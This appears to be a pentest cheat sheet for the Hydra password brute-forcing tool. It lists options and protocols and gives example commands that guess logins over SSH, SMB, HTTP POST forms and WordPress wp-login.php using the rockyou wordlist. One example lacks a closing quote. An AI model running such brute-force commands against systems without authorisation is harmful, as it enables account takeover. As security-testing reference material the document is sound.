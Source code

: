 #Hydra
# **Basic syntax :**
```bash
hydra [options] <IP> <protocole>
```

## Some flags :

`-h` Show help menu
`-l <username>` Username/login
`-L <wordlist>` Usernames/login wordlist
`-p <password>` Password
`-P <wordlist>` Passwords wordlist
`-s <PORT>` Specify port
`-f` Stop bruteforce as soon as username and password are found
`-R` Restore previous session
`-t <number>` Number of threads
`-V` Verbosity

## Some protocols :

SSH, FTP, POP3, HTTP-FORM-GET, HTTP-FORM-POST, HTTP-HEAD, HTTP-POST, HTTP-GET, IMAP, SMB, SMTP, MySQL, etc...

## Examples :
```bash
hydra -l admin -P rockyou.txt 192.168.10.10 ssh

hydra -L top-usernames-shortlist.txt -P rockyou.txt 192.168.10.10 ssh

hydra -L top-usernames-shortlist.txt -P rockyou.txt 192.168.10.10 smb
```

## Bruteforce HTTP Post form :
```bash
hydra -l admin -P rockyou.txt 192.168.10.10 http-post-form "/login:username=admin&password=^PASS^:F=Your password is incorrect
```

## Bruteforce Wordpress :
```bash
hydra -l admin -P rockyou.txt 192.168.10.10 -V http-form-post '/wp-login.php:log=admin&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
```
